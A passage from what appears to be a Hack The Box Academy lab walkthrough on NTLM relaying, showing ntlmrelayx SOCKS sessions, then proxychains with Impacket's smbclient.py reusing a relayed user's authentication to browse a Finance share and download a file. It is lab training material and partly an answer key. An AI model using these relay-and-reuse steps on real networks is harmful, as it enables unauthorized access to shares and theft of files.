```shell-session
ntlmrelayx> socks
Protocol  Target         Username              AdminStatus  Port 
--------  -------------  --------------------  -----------  ----
SMB       172.16.117.50  INLANEFREIGHT/CJAQ    FALSE        445  
SMB       172.16.117.50  INLANEFREIGHT/NPORTS  FALSE        445  
SMB       172.16.117.50  INLANEFREIGHT/RMONTY  FALSE        445  
SMB       172.16.117.50  INLANEFREIGHT/JPEREZ  FALSE        445  
SMB       172.16.117.50  INLANEFREIGHT/PETER   TRUE         445  
SMB       172.16.117.60  INLANEFREIGHT/JPEREZ  FALSE        445  
SMB       172.16.117.60  INLANEFREIGHT/RMONTY  FALSE        445  
SMB       172.16.117.60  INLANEFREIGHT/DPEREZ  FALSE        445  
SMB       172.16.117.60  INLANEFREIGHT/PETER   FALSE        445
```

Once students have confirmed that `RMONTY`'s authentication has been relayed successfully, they will use `proxychains` and `smbclient.py`. They are able to gain SMB access on the `172.16.117.50` host, using the `-no-pass` option in `smbclient.py` using the relayed authentication will be used to access the resources on the mentioned target.

Code: shell

```shell
proxychains4 -q smbclient.py INLANEFREIGHT/RMONTY@172.16.117.50 -no-pass
```

```shell-session
htb-student@ubuntu:~$ proxychains4 -q smbclient.py INLANEFREIGHT/RMONTY@172.16.117.50 -no-pass
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
#
```

Right after they have successfully established an SMB session using the relayed authentication, students will have to use the built-in command(s) such as `shares` to list the available shares, `use` to change the working directory to the specified share, `ls` to display the contents in the share, and `get` to download a file from the share. Students will come to know that there is a share called `Finance`, that can be accessed holding a few files, one of which is `connections.txt` that they will have to download.

Code: shell

```shell
shares
use Finance
ls
get connections.txt
```

```shell-session
htb-student@ubuntu:~$ proxychains4 -q smbclient.py INLANEFREIGHT/RMONTY@172.16.117.50 -no-pass
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# shares
ADMIN$
C$
Finance
IPC$

# use Finance
# ls
drw-rw-rw-          0  Tue Aug 15 17:49:34 2023 .
drw-rw-rw-          0  Tue Aug 15 17:49:34 2023 ..
-rw-rw-rw-         32  Tue Aug 15 17:50:28 2023 connections.txt
-rw-rw-rw-         65  Sat Aug  5 00:33:32 2023 flag.txt
-rw-rw-rw-         22  Sat Aug  5 00:32:37 2023 report.txt

```